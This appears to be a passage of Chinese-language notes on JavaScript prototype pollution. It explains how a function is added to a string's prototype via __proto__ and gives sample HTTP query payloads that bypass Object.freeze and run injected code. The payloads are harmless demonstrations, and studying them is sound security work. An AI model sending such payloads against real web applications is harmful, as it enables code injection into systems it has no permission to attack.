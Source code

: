 ![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_54_btOP71gR.png)

原理：
obj.getMsg 的类型是String类型，字符串方法全都源自其原型上的方法，那么将secFunc方法写在其原型上，然后再调用

```javascript
// 这里的secFunc 是一个 Function
obj.getMsg.__proto__.secFunc = function(){return "secTest,hello world"}
// 调用该方法
obj.getMsg.secFunc() 
// 或者 指定第一层原型上的secFunc方法
obj.__proto__.secFunc()
// 又因为以下表达式会返回一个function，那么在JavaScript里，只要返回值是function在其后加上括号即可立即执行方法
obj.getMsg.__proto__.secFunc = function(){return "secTest,hello world"}()
```
#### payload_2
存在Object.freeze 方法，不允许在object里添加属性，那么给他的原型添加方法并调用
```http
?test=__proto__.secTest=function(){return "secTest,hello world"}
?test=secTest()
=> 
?test=__proto__.secTest=function(){return "secTest,hello world"}()
```